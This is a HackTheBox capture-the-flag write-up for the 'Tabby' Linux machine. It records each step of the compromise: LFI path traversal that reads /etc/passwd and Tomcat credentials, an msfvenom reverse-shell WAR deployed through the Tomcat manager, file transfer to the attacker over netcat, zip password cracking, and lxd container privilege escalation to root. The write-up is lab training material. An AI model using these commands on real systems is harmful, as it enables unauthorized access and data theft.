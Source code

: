 ```yaml
---
layout: post
title: "HackTheBox - Tabby"
date: 2022-03-05
categories: [HackTheBox]
tags: [LFI, tomcat, war file, fcrackzip, lxd]
image: ![image](https://user-images.githubusercontent.com/67465230/156877775-697968ce-3f39-4263-95d4-6dfa773cd1c9.png)

---
```


|**Machine**|[Tabby](https://app.hackthebox.com/machines/Tabby)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[egre55](https://app.hackthebox.com/users/1190)|

---

Before getting started, let's first connect to HackTheBox vpn and run the machine.

Let's get started with nmap scan,

```bash
sudo nmap -T4 -p- -A -oN nmap_scan 10.10.10.194
```

![image](https://user-images.githubusercontent.com/67465230/156878224-da096a04-9998-4e1a-b659-789894e020d9.png)

nmap result tell us that there are 3 ports 22(SSH), 80(http), 8080(http) are open.

Let's get to know about what technologies are running on port 80

```bash
whatweb http://10.10.10.194
```

![image](https://user-images.githubusercontent.com/67465230/156878456-731c2023-bdb0-4530-9ad6-77763c8b7d77.png)

here we can see that email gives us a hint that we might resolve **megahosting.htb** domain with the machine's IP by editing **/etc/hosts file**

let's find what technologies are running on this domain,

```bash
whatweb http://megahosting.htb:8080/docs/
```

![image](https://user-images.githubusercontent.com/67465230/156878227-0026ac79-3c20-4555-94e5-ee4f462e16e1.png)

visiting http://10.10.10.194,

![image](https://user-images.githubusercontent.com/67465230/156878235-51073e88-42ca-433b-a70d-e1d5a80b7a85.png)

we land on main webpage.

Let's visit port 8080 on http://10.10.10.194:8080 as well,

![image](https://user-images.githubusercontent.com/67465230/156878241-7a553b4e-3b95-4481-9f98-bf7ea8130fc2.png)

and we can see that Users are defined in **/etc/tomcat9/tomcat-users.xml** file.

after trying everything, I found that http://megahosting.htb/news.php?file=statement has LFI vulnerability.

![image](https://user-images.githubusercontent.com/67465230/156878245-1e1a2584-53d9-4da1-a9fb-0610014b96c9.png)

we can see /etc/passwd by going to http://megahosting.htb/news.php?file=../../../../../../../../etc/passwd

![image](https://user-images.githubusercontent.com/67465230/156878249-fca889d9-4274-4cc0-8f5a-e1ff76e2068d.png)

and there's a **Ash** user. 

let's visit http://megahosting.htb/news.php?file=../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml

![image](https://user-images.githubusercontent.com/67465230/156878251-ccea820a-a83f-4ac4-afbd-677bed15b28a.png)

we got blank page. Let's view the source code,

![image](https://user-images.githubusercontent.com/67465230/156878252-c5baab16-6822-4d3a-932a-2594ab94aeaf.png)

we got credentials of tomcat user.

Let's try to ssh into the system, our ssh login failed  

```bash
ssh 10.10.10.194
```

![image](https://user-images.githubusercontent.com/67465230/156878265-d4ef5ca9-fce6-4d23-bb41-587f0ccadb50.png)

Now, we'll go to host-manager-webapp on http://megahosting.htb:8080/

![image](https://user-images.githubusercontent.com/67465230/156878259-460bd85d-a2a9-45de-b972-79fa90ec06bd.png)

Ahh! Finally we arrive at manager page,

![image](https://user-images.githubusercontent.com/67465230/156878262-509bdbcf-4874-4f41-b789-7bdcb52c28a9.png)

after loging into manager page, now we'll create a payload using `msfvenom`,

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.18 LPORT=1234 -f war > sh.war
```

and upload shell into web directory of website,

```bash
curl -u 'tomcat:' -T sh.war 'http://megahosting.htb:8080/manager/text/deploy?path=/home/shell'
```

![image](https://user-images.githubusercontent.com/67465230/156878276-281ddad8-369d-4eb3-94e5-e41ea9e767d0.png)

now start netcat listener by `nc -nvlp 1234` and trigger the uploaded shell on website

```bash
curl -u 'tomcat:******************' http://megahosting.htb:8080/home/shell/
```

![image](https://user-images.githubusercontent.com/67465230/156878697-2fc83bd9-ee22-43bf-89f0-579bd9df18e5.png)

after we execute it we'll get reverse connection,

![image](https://user-images.githubusercontent.com/67465230/156878284-7c7ca3c7-aba9-429b-87ef-de1285897e2b.png)

and now we'll upgrade shell using 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
```

![image](https://user-images.githubusercontent.com/67465230/156878288-539e22db-4b72-429c-bd02-e0bea312263d.png)

now we'll download file into our system by typing command in our machine 

```bash
nc -nvlp 5555 > 16162020_backup.zip
```

![image](https://user-images.githubusercontent.com/67465230/156878295-8b0f7980-8309-4f32-a563-8019b8140cfe.png)

and other command in that obtained shell,

```bash
nc -w 3 10.10.14.18 5555 < 16162020_backup.zip
``` 

![image](https://user-images.githubusercontent.com/67465230/156878299-67b6af1c-16c5-4957-ac7f-32a44b2a6eef.png)

Now that we have a zip file protected with password, we can try to crack the password with fcrackzip with a provided password list,

```bash
fcrackzip -D -p /home/kali/HTB/tabby/rockyou.txt 16162020_backup.zip
```

![image](https://user-images.githubusercontent.com/67465230/156878908-cc19a0ea-a3da-445b-be5e-70c445b8282e.png)

now switching to Ash user in shell and we can capture the user flag 

```bash
su ash
```

![image](https://user-images.githubusercontent.com/67465230/156878942-46aaaa5e-bb8e-43bd-8680-7946a7742055.png)

Now we have to do Privilege Escalation for root flag

now download this file in tabby dir in kali

![image](https://user-images.githubusercontent.com/67465230/156878303-27c4e8ee-1c24-41de-bfe4-ce054adc41d8.png)

after downloading,

![image](https://user-images.githubusercontent.com/67465230/156878313-337ff292-f7cb-42f4-ad5b-b2ffb91e12de.png)

and we'll download this file in the shell by writing this command on the shell side 

```bash
nc -lp 6666 > alpine-v3.12-x86_64-20201023_0344.tar.gz
```

![image](https://user-images.githubusercontent.com/67465230/156878318-765c3e03-622d-4c18-aff6-05c62447efa5.png)

and this command in our machine

```bash
nc -w 3 10.10.10.194 6666 < alpine-v3.12-x86_64-20201023_0344.tar.gz
```

![image](https://user-images.githubusercontent.com/67465230/156878323-1203c010-9f85-4484-8b4c-7b7eb3599c3c.png)

and now run this series of command

```bash
lxc  image import alpine-v3.12-x86_64-20201023_0344.tar.gz --alias ctfimage
lxc image list
lxc ctfimage tabbyimage -c security.privileged=true
lxc init ctfimage tabbyimage -c security.privileged=true
lxc config device add tabbyimage mydevice disk source=/ path=/mnt/root recursive=true
lxc start tabbyimage
lxc exec tabbyimage /bin/sh
```

![image](https://user-images.githubusercontent.com/67465230/156878328-6eb35b16-7585-4478-9a56-07859bb33408.png)

we got the root access to the system. We can now grab this root flag. (: